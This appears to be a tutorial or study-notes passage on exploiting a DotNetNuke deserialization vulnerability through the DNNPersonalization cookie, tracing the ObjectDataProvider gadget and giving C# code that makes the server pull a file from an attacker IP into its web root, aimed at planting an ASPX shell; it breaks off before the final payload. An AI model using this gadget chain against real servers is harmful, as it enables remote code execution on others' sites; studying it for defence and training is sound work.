



## Payload Options
As we are dealing with a deserialization vulnerability, our goal is to find an object that can execute code that we can use for our purposes and that we can properly deserialize.

**FileSystemUtils PullFile Method**
The DotNetNuke.dll assembly contains a class called _FileSystemUtils_. This class implements a method called _PullFile_.
Taking a look at the method:


This function could be very useful from an attacker perspective as it allows to download an arbitrary file from a given URL to the target server.
This means that if we can trigger this method using the _DNNPersonalization_ cookie, we could theoretically upload an ASPX shell and gain code execution on our target server.

However, this will not work. That's because of the limitation of the XmlSerializer class.
Although this class is within the DNN application domain and would therefore be known to the serializer at runtime, _XmlSerializer_ can _not_ serialize class methods.
It can only serialize public properties and fields.
Unfortunately, the _FileSystemUtils_ class does not expose any public properties that we could _set_ or _get_ in order to trigger the invocation of the _PullFile_ method.

**ObjectDataProvider Class**
The _ObjectDataProvider_ gadget is arguably the most versatile.
The class is used when we want to wrap another object into an _ObjectDataProvider_ instance and use it as a binding source.
(A binding source is simply an object that provides the programmer with relevant data.)
The ObjectDataProvider class allows us to wrap an arbitrary object and use the _MethodName_ property to call a method from a wrapped object, along with the _MethodParameters_ property to pass any necessary parameters.
The _ObjectDataProvider_ class also does not violate any limitations imposed by XmlSerializer.

The _ObjectDataProvider_ is defined and implemented in the System.Windows.Data namespace, which is located in the PresentationFramework.dll .NET executable file.
Taking a look at the MethodName property:


Here, the MethodName property is set, the private \_methodName variable is set and ultimately the base.Refresh function call takes place.

We can trace the function:


Where we notice another function call, called BeginQuery. Tracing the function call to BeginQuery, we come at a dead-end.
This is because ObjectDataProvider class inherits from DataSourceProvider class, which is where we land.
However, navigating to the BeginQuery function within the ObjectDataProvider class that overrides the inherited function, we see:


We see another call to the QueryWorker method in the end.
Tracing this method:



We arrive at the function call to InvokeMethodOnInstance.
This is exactly the point at which the target method in the wrapped object is invoked.

## Example Use
We need to create a final serialized payload generator and thus we'll start with a basic project that uses existing DNN code.
(Note: we need to set dotnetnuke.dll and PresentationFramework.dll as references)

Our code will look like so:

```c#
using System;
using System.IO;
using System.Xml.Serialization;
using DotNetNuke.Common.Utilities;
using System.Windows.Data;

namespace ODPSerializer
{
    class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider myODP = new ObjectDataProvider();
            myODP.ObjectInstance = new FileSystemUtils();
            myODP.MethodName = "PullFile";
            myODP.MethodParameters.Add("http://192.168.119.184/myODPTest.txt");
            myODP.MethodParameters.Add("C:/inetpub/wwwroot/dotnetnuke/PullFileTest.txt");
            Console.WriteLine("Done!");
        }
    }
}
```

The code does the following:
1. Sets all appropriate using directives.
2. Creates a ObjectDataProvider instance
3. Instructs it to wrap the DNN FileSystemUtils object.
4. Instructs it to call the PullFile method.
5. Passes 2 arguments being the file on the attacker machine and the local location for the file to be downloaded.

After compiling and running the project, we see that our file was pulled from our attacker machine:



And is stored inside the remote server in our given folder:



## Serializing Our Payload

We already know how to use the XmlSerializer class to serialize our object.
Based on our earlier analysis we know that the DNNPersonalization cookie has to be in a specific format in order to reach the deserialization function call.
Specifically, it has to contain the "profile" node along with the "item" tag, which contains a "type" attribute describing the enclosed object.

Rather than trying to reconstruct this structure manually, we can re-use the DNN function that creates that cookie value in the first place. This function is called _SerializeDictionary_ and is located in the _DotNetNuke.Common.Utilities.XmlUtils_ namespace:

